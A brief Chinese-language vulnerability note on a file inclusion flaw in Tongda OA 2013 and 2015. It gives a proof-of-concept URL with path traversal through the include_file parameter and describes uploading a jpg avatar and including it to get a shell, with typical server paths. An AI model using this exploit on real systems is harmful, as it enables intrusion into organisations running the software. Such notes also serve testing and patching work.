 ```yaml
---
title: 通达oa 文件包含漏洞
id: zhfly3336
---
```


# 通达oa 文件包含漏洞

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

poc

```
http://0-sec.org/inc/menu_left.php?GLOBALS[MENU_LEFT][A][module][1]=a&include_file=../inc/js/menu_left.js 
```

通常情况下，在控制⾯板中上传⼀个jpg头像，然后利用该⻚面的⽂件包含getshell。通达OA网站的根⽬录 一般在D:\MYOA\webroot中,头像附件一般在D:\MYOA\webroot\attachment\avatar\XXX.jpg

![image](../img/6d9d94530ca50a162c30631ae6591887.png)